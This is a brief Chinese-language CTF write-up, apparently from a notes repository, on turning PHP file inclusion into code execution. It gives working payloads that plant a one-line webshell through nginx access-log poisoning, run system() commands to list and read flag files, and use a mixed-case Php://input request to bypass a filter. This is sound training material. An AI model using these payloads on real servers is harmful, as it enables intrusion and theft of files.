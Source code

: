 日志包含

写入一句话木马

![image-20241121201547420](../assets/image-20241121201547420.png)

连webshell工具或者直接get传参

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

Or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```
